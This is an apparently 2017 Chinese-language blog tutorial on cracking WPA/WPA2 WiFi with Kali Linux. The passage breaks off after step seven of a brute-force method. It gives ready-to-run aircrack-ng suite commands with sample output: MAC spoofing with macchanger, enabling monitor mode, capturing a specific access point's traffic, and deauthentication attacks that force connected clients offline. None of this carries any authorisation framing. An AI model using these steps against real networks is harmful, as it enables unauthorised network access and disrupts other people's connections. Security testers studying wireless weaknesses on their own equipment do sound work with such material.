 ```yaml
---
title:  "<font color='red'>[原创]</font> 使用Kali破解WPA/WPA2 WiFi"
date:   2017-09-26 15:13:23
categories: [原创,技术宅,Kali]
tags: [原创,技术宅,Kali]
---
```


**

## 使用密码表暴力破解

1. 检查无线适配器状态
		
		# iwconfig
		wlan0	IEEE 802.11  ESSID:off/any  
          		Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          		Retry short  long limit:2   RTS thr:off   Fragment thr:off
          		Encryption key:off
          		Power Management:off

2. [可选] 对于运行在virtual box中的虚拟机，需要执行以下命令

		# airmon-ng stop wlan0mon && ifconfig wlan0 down && macchanger -r wlan0 && airmon-ng check kill && ifconfig wlan0 up

3. kill掉可能会造成monitor模式错误的进程

		# airmon-ng check kill
		Killing these processes:
		  PID Name
		  563 dhclient
		  841 wpa_supplicant

4. 在wlan0开始monitor模式

		# airmon-ng start wlan0
		PHY		Interface	Driver		Chipset
		phy0	wlan0		rt2800usb	Ralink Technology, Corp. RT5372
		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)

5. 查看周围的AP和连接上AP的clients，保留运行这个命令的终端

		# airodump-ng wlan0mon

6. 新开一个终端，监听特定频段和SSID的AP

		# airodump-ng -c 11 --bssid 70:F9:6D:64:B5:60 -w ~/test wlan0mon

7. 将连上该AP的clients强制下线
		
		# aireplay-ng --deauth 10 -a 70:F9:6D:64:B5:60 wlan0mon
